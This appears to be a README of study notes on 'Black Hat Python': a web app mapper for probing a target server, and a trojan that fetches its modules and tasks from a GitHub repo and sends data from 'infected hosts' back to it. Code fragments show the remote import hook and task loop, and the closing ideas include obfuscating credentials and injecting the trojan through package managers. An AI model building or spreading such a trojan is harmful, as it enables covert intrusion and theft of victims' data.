

#Hackery in Python 

The below is me going through the parts that I liked best from Black Hat Python by Justin Seitz.

##Web app mapper

Suppose we're trying to compromise a server for which we know the target url then we can hunt for all the files that are reachable on the remote target in the hopes of finding some way to gain root access by inspecting the local file structure of the project.

###Usage

target is the the url of the host you are trying to hack into
directory is the source code of the app you downloaded 
[filters] filters out unwanted file types
```
python web_app_mapper target directory num_threads [filters]
```

###How it works

You need to perform an ```os.walk(directory)``` and push to a queue every path you find.

Then for each element of the queue, send a simple request and inspect the path of the response. The path of the response might reveal sensitive information that you can use to conduct your attack.

###Pwned




##Github Trojan

This repo follows the exposition of Black Hat Python Chapter 7: "Github Command
and Control" by Justin Seitz, it is intended for pedagogical purposes only.

##Usage
Add a username, password, repo and branch and then run

```
python git_trojan.py
```

###How it works

Override functionality of meta_path to GitImporter so that if module is not found locally then our module is used instead.

```
sys.meta_path = [GitImporter()]
```

Next, queue in tasks from a generated config file 
```
while True:

    if task_queue.empty():

        config = get_trojan_config()

        for task in config:
            t = threading.Thread(target=module_runner,args=(task['module'],))
            t.start()
            time.sleep(random.randint(1,10))

    time.sleep(random.randint(1000,10000))
```

```module_runner ``` runs the module and then stores the result as a github repo by just authenticating with the above credentials.

Finally, pull the changes from your machine to start receiving private information from the infected hosts.
```
git pull origin master
```

###Interesting things to do next

* Obfuscate authentication
* Think of how to inject this when people use package managers
